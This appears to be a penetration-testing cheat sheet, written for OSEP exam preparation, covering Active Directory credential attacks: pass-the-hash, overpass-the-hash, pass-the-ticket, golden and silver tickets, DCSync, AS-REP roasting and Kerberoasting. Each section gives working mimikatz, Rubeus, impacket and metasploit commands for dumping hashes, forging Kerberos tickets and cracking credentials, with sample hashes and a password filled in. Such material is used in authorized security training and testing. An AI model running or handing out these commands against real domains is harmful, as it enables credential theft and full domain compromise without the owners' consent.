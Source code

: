 (Although the techniques explained here aren't teached in the OSEP, I found them pretty useful during my OSEP exam & labs, learning and researching
about them also helped me improve my knowlegde of Active Directory which is always useful)

**PASS THE HASH:**

The pass-the-hash techinque allows an attacker to authenticate to remote systems using the user NTLM hash(the static part, also known as NT hash). 
Note that the pass-the-hash technique only applies to Windows/NTLM authentication and not to Kerberos authentication.

There are lots of tools that support pass-the-hash. For example all the impacket suite supports it, xfreerdp also does, mimikatz also does, and the
list keeps going on...

Passing the hash from bare bones *nix systems using [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/tree/master).

**OVERPASS THE HASH:**

Overpass the hash, presented in the [blackhat](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf). This technique allows an attacker to get a TGT using only the NTLM hash of the user. 

We can for example use overpass the hash through [mimikatz](https://github.com/gentilkiwi/mimikatz):

```
mimikatz # sekurlsa::pth /user:user1 /domain:contoso.com /ntlm:<ntlm_hash> /run:PowerShell.exe
```

Once we have the new powershell session, we can authenticate to any AD resource to obtain a TGT, here's an example:

```
PS C:\> klist  -> no TGT for the user1

PS C:\> net use \\dc01.contoso.com

PS C:\> klist -> TGT for the user1
```

**PASS THE TICKET:**

The pass-the-ticket technique abuses the TGS, which can be exported and injected somewhere else.

```
Listing tickets with mimikatz:

mimikatz # kerberos::list


Exporting all tickets(TGTs and TGSs) with mimikatz:

mimikatz # sekurlsa::tickets /export   


Injecting some ticket into memory with mimikatz:

mimikatz # kerberos::ptt 'C:\ticket.kirbi'
```

*When trying to export a usable TGT for our current user, this requieres elevation in the system*

However with the "tgtdeleg" Rubeus function we can aviod the elevation and obtain a fully working TGT for our current user:

```
C:\> Rubeus.exe tgtdeleg
```

Although TGTs on Windows are exported as .kirbi, and on Linux as .ccache. We can use the impacket [ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) to convert a .kirbi to a .ccache, or a .ccache to a .kirbi.

```
From .ccache to .kirbi
~# python ticket_converter.py trike.ccache trike.kirbi

From .kirbi to .ccache
~# python ticket_converter.py velociraptor.kirbi velociraptor.ccache
```

Alternatively you can use this metasploit module [auxiliary/admin/kerberos/ticket_converter](https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/ticket_converter.html).

**GOLDEN TICKETS:**

With golden tickets, we can create TGTs for any domain resource that we want, and stating the groups we want. However to execute this attack we need the "krbtgt" domain account NTLM hash/password. Note that this attack is mostly used when you are already Domain Admin rather than trying to become one.

Now, armed with the "krbtgt" NTLM hash, we can proceed and craft our golden ticket with mimikatz:

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:<our_sid_without_the_rid_part> /krbtgt:<ntlm_hash_of_krbtgt> /ptt
(mimikatz by default will assing us the RID of 500, however we can set a custom one via the "/id" parameter)

mimikatz # misc::cmd -> launcing a new cmd with our new TGT
```

**SILVER TICKETS:**

This technique consists of crafting a TGS with the password hash of the SPN. The interesting part about this TGS, is that we can modify our permissions(such as user id or group id) stating that we are local administrator/domain admin/etc on the server where the SPN we have compromised is running its service. 

In our example, our compromimsed SPN will we "svc_mssql", its NTLM password hash will be this "1BF1DE6AEDB12AE1E548210EDBF3511E", its FQDN will be "MSSQL/server.contoso.com" and the SID of the trike user will be "S-1-5-21-2602875597-2787548311-2599479668-1204"

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:S-1-5-21-2602875597-2787548311-2599479668 /target:server.contoso.com /service:MSSQL /rc4:1BF1DE6AEDB12AE1E548210EDBF3511E /ptt
```
(note that in the sid parameter we didn't specify the RID of the trike user, since mimikatz will automatically set our RID to 500 which equals to both local administrator and domain admin)

**DOMAIN CONTROLLER SYNCHRONIZATION:**

This is an alternative way to get any domain user hash without dumping the entire NTDS.dit database. For this reason DcSync is way stealthier. 

This attack works because the domain controller recieving the request doesn't verify that the request came from a know domain controller, only that the SID has the appropiate permissions to do so. For this reason, if a domain admin sends a request to a domain controller, this will likely succeed. 

We can perform this attack with mimikatz:

```
mimikatz # lsadump::dcsync /user:Administrator

mimikatz # lsadump::dcsync /user:krbtgt
```

**AS-REP ROASTING ATTACK:**

This attack works for domain users that have the "DONT_REQ_PREAUTH" property *useraccountcontrol* set. 
```
# From Rubeus
C:\> .\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

# Check ASREPRoast for all domain users (credentials required)
~# impacket-GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]>

# Check ASREPRoast for a list of users (no credentials required)
~# impacket-GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]>

# Now we will attempt to crack the hashes obtained
~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**KERBEROASTING ATTACK:**

The essence of this attack is to crack the encrypted key which was used to generate the TGS from where we extract the encrypted key to crack.

You need valid domain credentials to perform this attack.

```
~# impacket-getuserspns -request contoso.com/trike:'DevT$st34'@192.168.1.1

msf > use auxiliary/gather/get_user_spns
```
For Windows exploitation(manual and automatic) review this link: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
